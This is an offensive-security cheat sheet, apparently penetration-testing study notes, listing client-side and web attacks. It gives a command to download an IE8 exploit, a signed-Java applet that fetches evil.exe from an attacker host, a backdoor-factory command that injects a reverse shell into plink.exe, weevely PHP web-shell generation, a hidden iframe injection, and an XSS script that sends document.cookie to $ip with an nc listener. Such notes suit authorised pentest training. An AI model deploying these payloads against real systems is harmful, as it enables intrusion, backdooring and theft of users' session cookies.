 cd\ & dir /b /s proof.txt type c:\pathto\proof.txt

Client, Web and Password Attacks
Client Attacks
MS12-037- Internet Explorer 8 Fixed Col Span ID
wget -O exploit.html http://www.exploit-db.com/download/24017
service apache2 start

JAVA Signed Jar client side attack
echo '<applet width="1" height="1" id="Java Secure" code="Java.class" archive="SignedJava.jar"><param name="1" value="http://$ip:80/evil.exe"></applet>' > /var/www/html/java.html
User must hit run on the popup that occurs.

Linux Client Shells
http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/

Setting up the Client Side Exploit

Swapping Out the Shellcode

Injecting a Backdoor Shell into Plink.exe
backdoor-factory -f /usr/share/windows-binaries/plink.exe -H $ip -P 4444 -s reverse_shell_tcp

Web Attacks
Web Shag Web Application Vulnerability Assessment Platform
webshag-gui

Web Shells
http://tools.kali.org/maintaining-access/webshells
ls -l /usr/share/webshells/

Generate a PHP backdoor (generate) protected with the given password (s3cr3t)
weevely generate s3cr3t
weevely http://$ip/weevely.php s3cr3t

Java Signed Applet Attack

HTTP / HTTPS Webserver Enumeration

OWASP Dirbuster

nikto -h $ip

Essential Iceweasel Add-ons
Cookies Manager https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/
Tamper Data
https://addons.mozilla.org/en-US/firefox/addon/tamper-data/

Cross Site Scripting (XSS)
significant impacts, such as cookie stealing and authentication bypass, redirecting the victim’s browser to a malicious HTML page, and more

Browser Redirection and IFRAME Injection
<iframe SRC="http://$ip/report" height = "0" width ="0"></iframe>

Stealing Cookies and Session Information
<script>
new image().src="http://$ip/bogus.php?output="+document.cookie;
</script>
nc -nlvp 80
